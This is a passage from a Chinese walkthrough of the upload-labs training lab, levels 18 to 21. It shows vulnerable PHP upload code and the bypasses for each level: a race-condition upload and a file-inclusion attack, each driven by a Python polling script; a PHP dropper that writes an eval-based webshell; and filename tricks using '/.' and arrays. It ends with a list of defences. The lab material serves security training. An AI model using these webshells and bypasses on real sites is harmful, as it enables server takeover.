    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

本关提示

 

其实还是可以使用图片马然后通过文件包含漏洞进行连接，但是这关的首页上也去掉了文件包含漏洞的链接，说明还是希望通过上传php文件进行连接。

从源码来看，服务器先是将上传的文件保存下来，然后将文件的后缀名同白名单对比，如果是jpg、png、gif中的一种，就将文件进行重命名。如果不符合的话，unlink()函数就会删除该文件。

代码执行的过程是需要耗费时间的。如果我们能在上传的一句话被删除之前连接也时行得通的。这个也就叫做条件竞争上传绕过。看到一个类比很恰当`这就相当于我们打开了一个文件，然后再去删除这个文件，就会提示这个文件在另一程序中打开无法删除。`

为了更好的演示效果，把一句话木马换一下改为以下内容，并取名为`competition.php`

当python脚本访问这个文件的时候它会新建一个`shell.php`

```
<?php
fputs(fopen('shell.php','w'),'<?php @eval($_POST["ljj"]) ?>');
?>
```

然后我们写一个python脚本，通过它来不停的访问我们上传上去的PHP文件。

```python
import requests
url = "http://upload.com:9099/upload/competition.php"
while True:
    html = requests.get(url)
    if html.status_code == 200:
        print("OK")
        break
```

在BP攻击的`同时`我们也要运行python脚本，这个python脚本目的就是不停地访问`competition.php`知道成功访问到为止。当出现`OK`说明访问到了该文件，那么`shell.php`应该也创建成功了。

用BP抓包，右键选择send to intruder


![(assets/image-20221214202637966.png)

选择Positions点击`Clear$`


如图操作修改设置


再选择Options修改一下线程


这是开始攻击之后其实观察一下上传的那个文件夹可以看到competition这个文件一直在上传然后被删除。这是看到脚本输出OK后去到上传文件的文件夹里能看到shell.php已经成功创建。


之后便能成功用蚁剑连接


# Pass19

```
//index.php
$is_upload = false;
$msg = null;
if (isset($_POST['submit']))
{
    require_once("./myupload.php");
    $imgFileName =time();
    $u = new MyUpload($_FILES['upload_file']['name'], $_FILES['upload_file']['tmp_name'], $_FILES['upload_file']['size'],$imgFileName);
    $status_code = $u->upload(UPLOAD_PATH);
    switch ($status_code) {
        case 1:
            $is_upload = true;
            $img_path = $u->cls_upload_dir . $u->cls_file_rename_to;
            break;
        case 2:
            $msg = '文件已经被上传，但没有重命名。';
            break; 
        case -1:
            $msg = '这个文件不能上传到服务器的临时文件存储目录。';
            break; 
        case -2:
            $msg = '上传失败，上传目录不可写。';
            break; 
        case -3:
            $msg = '上传失败，无法上传该类型文件。';
            break; 
        case -4:
            $msg = '上传失败，上传的文件过大。';
            break; 
        case -5:
            $msg = '上传失败，服务器已经存在相同名称文件。';
            break; 
        case -6:
            $msg = '文件无法上传，文件不能复制到目标目录。';
            break;      
        default:
            $msg = '未知错误！';
            break;
    }
}

//myupload.php
class MyUpload{
......
......
...... 
  var $cls_arr_ext_accepted = array(
      ".doc", ".xls", ".txt", ".pdf", ".gif", ".jpg", ".zip", ".rar", ".7z",".ppt",
      ".html", ".xml", ".tiff", ".jpeg", ".png" );

......
......
......  
  /** upload()
   **
   ** Method to upload the file.
   ** This is the only method to call outside the class.
   ** @para String name of directory we upload to
   ** @returns void
  **/
  function upload( $dir ){
    
    $ret = $this->isUploadedFile();
    
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->setDir( $dir );
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkExtension();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkSize();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }
    
    // if flag to check if the file exists is set to 1
    
    if( $this->cls_file_exists == 1 ){
      
      $ret = $this->checkFileExists();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }

    // if we are here, we are ready to move the file to destination

    $ret = $this->move();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }

    // check if we need to rename the file

    if( $this->cls_rename_file == 1 ){
      $ret = $this->renameFile();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }
    
    // if we are here, everything worked as planned :)

    return $this->resultUpload( "SUCCESS" );
  
  }
......
......
...... 
};
```

首先提示，第十九关的上传路径有点问题，不是上传到了upload里面，建议修改一下，进入第十九关，找到myupload.php文件，在103行的dir后面加个`.'/'`


然后我们来分析一下源码，服务器先是将文件后缀跟白名单做了对比，然后检查了文件大小以及文件是否已经存在。文件上传之后又对其进行了重命名。

这么看来的话，php是不能上传了，只能上传图片马了，而且需要在图片马没有被重命名之前访问它。要让图片马能够执行还要配合其他漏洞，比如我们之前用到的文件包含，apache解析漏洞等。

继续用上一关我们的php代码来制作图片马

```php
<?php
fputs(fopen('shell.php','w'),'<?php @eval($_POST["ljj"]) ?>');
?>
```

仍然是使用我们之前制作图片马的方法。


然后上传图片马并用BP抓包，并发送的Intruder模块和18关操作一样


这里我们要修改python脚本，因为这关我们要配合文件包含漏洞。

```python
import requests
url = "http://upload.com:9099/include.php?file=upload/123.png"
while True:
    html = requests.get(url)
    if ('Warning' not in str(html.text)):
        print('ok')
        break
```

BP开始攻击，同时运行python脚本


出现OK那么shell.php也就创建成功了，和上一关一样用蚁剑去连接就可以了。

# Pass20

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = $_POST['save_name'];
        $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);

        if(!in_array($file_ext,$deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) { 
                $is_upload = true;
            }else{
                $msg = '上传出错！';
            }
        }else{
            $msg = '禁止保存为该类型文件！';
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    } 
}
```

这关没有对上传的文件类型做判断，只对用户输入的文件名做判断，后缀名黑名单，上传的文件名用户可控黑名单用于用户输入的文件后缀名进行判断
move_uploaded_file()还有这么一个特性，会忽略掉文件末尾的 `/.`

那我们先将php后缀改为png上传，然后用BP抓包


修改save_name的文件名称


成功上传


#  Pass21

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```

```bash
这一关白名单
验证过程：
--> 验证上传路径是否存在
--> 验证['upload_file']的content-type是否合法（可以抓包修改）
--> 判断POST参数是否为空定义$file变量（关键：构造数组绕过下一步的判断）
-->判断file不是数组则使用explode('.', strtolower($file))对file进行切割，将file变为一个数组
--> 判断数组最后一个元素是否合法
--> 数组第一位和$file[count($file) - 1]进行拼接，产生保存文件名file_name
--> 上传文件
```

> explode(separator,string[,limit]) 函数，使用一个字符串分割另一个字符串，并返回由字符串组成的数组。
> end(array)函数，输出数组中的当前元素和最后一个元素的值。
> reset(array)函数，把数组的内部指针指向第一个元素，并返回这个元素的值
> count(array)函数，计算数组中的单元数目，或对象中的属性个数

然后上传用BP来拦截并改包

修改下图所示部位


十九关是一个黑名单，php/.就可以绕过，但是二十关他会检测文件后缀名，是一个白名单。所以把他拆分掉第三部分是.png，所以就会上传。实际上他上传上去的东西是
upload-21.php/.png 上传上去的东西就是upload-21.php。实现了绕过。

# 总结

## 漏洞成因 

具备上传文件功能的Web等应用，未对用户选择上传的文件进行校验，使得非法用户可通过上传可执行脚本而获取应用的控制权限。

## 防御

1. 不要暴露上传文件的位置
2. 禁用上传文件的执行权限
3. 黑白名单
4. 对上传的文件重命名，不易被猜测
5. 对文件内容进行二次渲染
6. 对上传的内容进行读取检查
